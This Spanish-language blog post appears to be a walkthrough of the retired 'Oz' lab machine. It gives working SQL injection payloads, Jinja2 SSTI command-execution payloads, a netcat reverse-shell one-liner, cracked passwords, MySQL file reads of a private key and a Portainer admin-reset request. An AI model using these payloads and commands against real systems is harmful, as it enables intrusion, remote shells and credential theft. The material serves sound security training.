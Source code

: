 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Oz                 |
| Os                     | Linux              |
| Difficulty             | Hard               |
| Points                 | 0                  |
| IP                     | 10.10.10.96        |

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Oz/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.96
```

![nmap 1](/assets/images/Oz/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.96 -oG allPorts
```

![nmap2](/assets/images/Oz/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p80,8080 10.10.10.96 -oN targeted
```

![nmap3](/assets/images/Oz/nmap3.png)

Continuemos enumerando informacion de los sitios con whatweb. A simple viste la pagina en puerto 80 pide la autenticacion de un usuario y la de puerto 8080 te hace el login.

![whatweb](/assets/images/Oz/whatweb.png)

Vamos ahora a aplicar Fuzzing sobre la aplicacion de API.

```s
wfuzz -c -t 200 --hw=1,4 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.96/FUZZ
```

Vemos que en la ruta /users la comilla simple genera un error, por lo que podria significar que se puede aplicar un sqli.

![SQLI](/assets/images/Oz/sqli1.png)

Metemos el tipico or 1=1 -- - y si nos devuelve hasta un usuario. Ahora para poder enumerar mas usuarios podemos meter un or 1=1 limit 1,1. Podemos ahora insertar un usuario de la siguiente manera:

```sql
union select database() -- -
union select schema_name from information_schema.schemata limit 0,1; -- -
union select table_name from information_schema.tables where table_schema="ozdb" -- -
union select group_concat(column_name) from information_schema.columns where table_schema="ozdb" and table_name="users_gbw" -- -
```

|   #   |     Database       |     
|:------|:-------------------|
| 0     | information_schema |
| 1     |    mysql           |
| 2     |    ozdb            | 
| 3     | performance_schema |

|   #   |     Tables ozdb    |     
|:------|:-------------------|
| 0     | tickets_gbw        |
| 1     |    users_gbw       |

|   #   |  Table users_gbw   |     
|:------|:-------------------|
| 0     |   id               |
| 1     |   username         |
| 2     |   password         |

Para iterar los usuarios

```bash
for i in $(seq 0 5); do curl -s -X GET "http://10.10.10.96/users/'or%201=1%20limit%20$i,1%20--%20-"; done | jq
```

![database name](/assets/images/Oz/database_name.png)

```s
curl -s -X GET "http://10.10.10.96/users/'union%20select%20group_concat(username,%22:%22,password)%20from%20ozdb.users_gbw--%20-" | jq
```

Para crackear los hashes encontrados:

```s
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
#Si tenemos tarjeta grafica
hashcat -m 10900 -a 0 rockyou.txt --user
#wizard.oz  wizardofoz22
```

Ahora podemos entrar al panel del puerto 8080 con la contrasena encontrada.

Abriremos burpsuite para empezar a hacer pruebas con este formulario tickets e intentar un SSTI.

![Burp 1](/assets/images/Oz/response_test.png)

Como vemos que la respuesta de nuestra prueba se refleja tal cual lo escribimos, es posible hacer un ssti, tambien sabemos que el motor que usa es flask de python y por lo tanto podremos enumerar posibles cosas.

De acuerdo con maquinas anteriores que habiamos hecho, podemos intentar pasarle a la peticion una prueba para que interprete. Para mas informacion, en el siguiente<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---basic-injection"> link.</a>
```py
{% raw %}
{{%7*7%}}
{% endraw %}
```
![Burp 2](/assets/images/Oz/burp2.png)

Ahora podemos intentar insertar comandos con un:
```py
{% raw %}
{{%% get_flashed_messages.__globals__.__builtins__.__import__("os")["popen"]("cat /proc/net/fib_trie").read() %}}
{% endraw %}
```
Ahora que ya sabemos que usaurio somos, y somos root, procedimos a meter un ifconfig y como no vemos la ip de la maquina objetivo significa que estamos en un docker.

Podemos ver ahora los puertos expuestos realmente con un
```py
{% raw %}
{%{ get_flashed_messages.__globals__.__builtins__.__import__("os")["popen"]("cat /proc/net/tcp").read() %}}
{% endraw %}
```
La respuesta de los puertos estara en hexadecimal y para verlos hacemos un:

```bash
echo "8C65
1F90
E412" | while read port; do echo "[+] Puerto $port -> $((0x$port))"; done
```

Ahora lo que intentaremos es inyectar un archivo malicioso con el script:
```py
{% raw %}
{{% ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') %}} {{% config.from_pyfile('/tmp/evilconfig.cfg') %}} {{% config['RUNCMD']('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.29 443 >/tmp/f',shell=True) %}}
{% endraw %}
```

Vemos que en la ruta /containers/database hay credenciales para quizas otro contenedor

![Database creds](/assets/images/Oz/database_creds.png)

Dentro de este contenedor, existe una ruta en el /.secret, dentro de este directorio vemos un archivo de configuracion del knock el cual sirve para establecer politicas. Hay una linea para abrir o cerrar el Openssh de acuerdo al portknocking, y para forzarlo haremos el siguiente comando:

```s
for port in 40809 50212 46969; do echo "test" | nc -u -w 1 10.10.10.96 $port; done; ssh dorth@10.10.10.96
```

No funciono, asi que ahora podemos tambien listar las demas maquinas que tenemos enfrente con:

```s
for i in $(seq 1 254); do (ping -c 1 10.100.10.$i | grep "bytes from"&); done
```

Y para detectarles sus puertos, podemos lanzar un:

```s
for port in $(seq 1 65535); do (nc -nvz 10.100.10.4 $port); done
```

Como el unico puerto que tiene abierto es el de mysql, procedemos a conectarnos al servicio con las credenciales antes encontradas:

```s
mysql -uroot -pSuP3rS3cr3tP@ss -h 10.100.10.4 -e 'show databases'
mysql -uroot -pSuP3rS3cr3tP@ss -h 10.100.10.4 -e 'select load_file("/home/dorthi/.ssh/id_rsa")' | sed 's/\\n/\n/g'
```

Como tenemos ahora un id_rsa podemos volver a intentar ahora si

```s
for port in 40809 50212 46969; do echo "test" | nc -u -w 1 10.10.10.96 $port; done; ssh -i id_rsa dorthi@10.10.10.96
```

Este id_rsa esta cifrado, asi que ahora para romper el cifrado podemos usar:

```s
ssh2john id_rsa > data
```

Ahora que tenemos un formato descifrable, usamos el siguiente comando, con las contrasenas encontradas para ver cual es la que sirve para esta clave:

```s
john --wordlist=pass data
#N0Pl4c3L1keH0me
```

Ahora tenemos acceso a la flag y para escalar privilegios, existe un contenedor que es para gestionar los contenedores en el puerto 9000, para usarlo solo usaremos:

```s
for port in 40809 50212 46969; do echo "test" | nc -u -w 1 10.10.10.96 $port; done; ssh -i id_rsa dorthi@10.10.10.96 -L 9000:172.17.0.2:9000
```

Ahora podemos visitar el portainer desde nuestro navegador con un localhost:9000, para esta version de portainer, la contrasena de admin se puede cambiar multiples veces con la siguiente peticion:

```s
curl -s -X POST "http://localhost:9000/api/users/admin/init" -H "Content-Type: application/json" -d '{"password": "rebick"}'
```

Ahora que tenemos acceso a esta interfaz, nos crearemos un contenedor con las siguientes caracteristicas para poder escribir sobre root.

![Container create](/assets/images/Oz/container_create.png)

Ahora solo tenemos que iniciar desde esta interfaz una shell con los privilegios que inicialmente nos da que son de root y dentro de rootfs tenemos el verdadero sistema operativo.

![root](/assets/images/Oz/root.png)

![Powned](/assets/images/Oz/powned.png)